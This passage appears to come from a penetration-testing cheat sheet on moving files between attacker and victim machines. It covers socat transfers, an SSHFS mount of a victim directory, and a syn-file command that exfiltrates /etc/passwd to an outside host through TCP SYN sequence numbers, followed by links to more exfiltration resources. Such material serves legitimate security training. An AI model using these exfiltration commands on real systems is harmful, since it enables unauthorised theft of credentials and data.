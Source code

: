 ```python
        list_files(args.directory, args.port)

    httpd.serve_forever()

if __name__ == "__main__":
    main()
```

## Other Programs

{% tabs %}
{% tab title="Socat" %}
### Socat

```bash
#to attacker
sudo socat TCP4-LISTEN:$port:fork file:$file_name
#from victim
socat TCP4:$IP:$port file:$filename,create
```

`sudo` is necessary if the port is under 1024. `fork` allows for multiple connections.
{% endtab %}

{% tab title="SSHFS" %}
### SSHFS

If the victim has SSH, the attacker can mount a directory from the victim to the attacker.

```bash
sudo apt install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```
{% endtab %}
{% endtabs %}

## Data exfiltration using TCP SYN <a href="#h-data-exfiltration-using-tcp-syn" id="h-data-exfiltration-using-tcp-syn"></a>

We can use TCP SYN sequence number packets to exfiltrate data using the `syn-file` tool.

```bash
./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 -m 00:0C:0A:4a:3b:5ch
```

* [https://github.com/defensahacker/syn-file](https://github.com/defensahacker/syn-file)

## Resources

* [https://book.hacktricks.xyz/exfiltration](https://book.hacktricks.xyz/exfiltration)
* [https://awakened1712.github.io/oscp/oscp-transfer-files/](https://awakened1712.github.io/oscp/oscp-transfer-files/)
* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
* [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-examples](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-examples)
* [DNSFTP](https://github.com/breenmachine/dnsftp) - Get file with DNS requests
* [https://linuxhandbook.com/transfer-files-ssh/](https://linuxhandbook.com/transfer-files-ssh/)
* [https://xapax.github.io/security/#transferring\_files/transfering\_files/](https://xapax.github.io/security/#transferring\_files/transfering\_files/)